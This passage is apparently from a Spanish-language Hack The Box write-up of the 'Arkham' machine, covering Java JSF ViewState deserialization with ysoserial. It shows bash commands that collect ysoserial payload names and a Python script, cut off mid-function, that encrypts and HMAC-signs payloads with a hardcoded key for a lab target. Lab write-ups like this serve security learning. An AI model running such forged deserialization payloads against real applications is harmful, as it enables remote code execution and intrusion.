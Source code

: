 Descargamos el binario y ejecutamos para ver todos los tipos de payload que podemos usar:

![179bash_ysoserial_payloads](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_ysoserial_payloads.png)

Uff varios, lo mejor será crear un script para generar los payloads y que al mismo tiempo haga las peticiones web hacia el campo "vulnerable" a ver si logramos explotar alguna deserializacion... Extraemos el nombre de cada payload para generar un array después:

```bash
❭ curl -s https://github.com/frohoff/ysoserial | grep Payload -A 35 | awk '{print $1}' | tail -n 34 > payloadsYSO
# O tambien asi:
❭ wget https://github.com/frohoff/ysoserial
❭ cat ysoserial | grep Payload -A 35 | awk '{print $1}' | tail -n 34 > payloadsYSO
```

Ya tendríamos los payloads, démosle el formato de array:

```bash
❭ for i in $(cat payloadsYSO); do echo -n "'$i',"; done
'AspectJWeaver','BeanShell1','C3P0','Click1','Clojure','CommonsBeanutils1','CommonsCollections1','CommonsCollections2','CommonsCollections3','CommonsCollections4','CommonsCollections5','CommonsCollections6','CommonsCollections7','FileUpload1','Groovy1','Hibernate1','Hibernate2','JBossInterceptors1','JRMPClient','JRMPListener','JSON1','JavassistWeld1','Jdk7u21','Jython1','MozillaRhino1','MozillaRhino2','Myfaces1','Myfaces2','ROME','Spring1','Spring2','URLDNS','Vaadin1','Wicket1',
```

Listo, ahora si los tenemos, después de un rato probando cositas creamos este script:

```py
#!/usr/bin/python3

import hashlib, hmac
import requests
import base64
import time
import os
from pyDes import *

payloads = [
    'AspectJWeaver','BeanShell1','C3P0','Click1','Clojure','CommonsBeanutils1','CommonsCollections1','CommonsCollections2','CommonsCollections3',
    'CommonsCollections4','CommonsCollections5','CommonsCollections6','CommonsCollections7','FileUpload1','Groovy1','Hibernate1','Hibernate2',
    'JBossInterceptors1','JRMPClient','JRMPListener','JSON1','JavassistWeld1','Jdk7u21','Jython1','MozillaRhino1','MozillaRhino2','Myfaces1',
    'Myfaces2','ROME','Spring1','Spring2','URLDNS','Vaadin1','Wicket1'
]

# Firmamos el payload
# * https://book.hacktricks.xyz/pentesting-web/deserialization/java-jsf-viewstate-.faces-deserialization#custom-encryption
def encrypt(payload,key):
    cipher = des(key, ECB, IV=None, pad=None, padmode=PAD_PKCS5)
    enc_payload = cipher.encrypt(payload)
    return enc_payload

def hmac_siga(enc_payload,key):
    hmac_sig = hmac.new(key, enc_payload, hashlib.sha1)
    hmac_sig = hmac_sig.digest()
    return hmac_sig

url = "http://10.10.10.130:8080"
key = b'JsF9876-'

def sign_payload(cmd):
    '''
```